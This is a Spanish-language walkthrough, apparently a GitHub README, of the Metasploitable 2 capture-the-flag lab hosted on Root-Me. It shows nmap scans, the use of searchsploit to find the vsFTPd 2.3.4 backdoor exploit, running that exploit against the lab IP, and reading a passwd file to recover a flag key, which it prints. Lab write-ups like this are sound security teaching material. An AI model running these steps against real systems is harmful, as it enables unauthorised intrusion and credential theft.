 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=500&height=80&lines=METASPLOITABLE_2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/metasploitable-2,29/

Sourceforge: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=en

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172515652-41a49316-c195-462f-a88b-bfba74051bf2.png)

Puertos abiertos: [21,22,23,25,53,80,110,139,445,3306,5900]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,23,25,53,80,110,139,445,3306,5900 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172518304-45323ab6-0e48-425d-9bf4-5e3689b86200.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** vsFTPd 2.3.4

- *Paso 3:* Identificación de exploit y descarga. 
```
searchsploit vsFTPd 2.3.4
```
![3](https://user-images.githubusercontent.com/75953873/172518879-12b95d54-5dac-4f0d-918e-96860c1c5eed.png)

`Dato:` cada exploit está enumerado y es irrepetible.

Exploit: 49757

Descargar exploit:
```
searchsploit -m 49757
```
![4](https://user-images.githubusercontent.com/75953873/172519207-132d9579-e008-4980-941a-44925d69d383.png)

- *Paso 5:* Obtener acceso. 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![5](https://user-images.githubusercontent.com/75953873/172519517-52e00c2d-277e-43d7-838e-796e99e2ed34.png)

**IP:** 212.129.29.186

Ejecución del exploit:
```
python3 49757.py 212.129.29.186
```
![6](https://user-images.githubusercontent.com/75953873/172519805-0a9e2b66-d85c-4b2a-a5d8-8801fea887c1.png)

Localizar fichero `passwd` y extraer flag (key):
```
cat passwd
```
![7](https://user-images.githubusercontent.com/75953873/172520170-d1cc17c5-5124-4c2f-ba76-10835fc58344.png)

**KEY:** bb43e7cf2385d2c38fd5a232b435e59d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
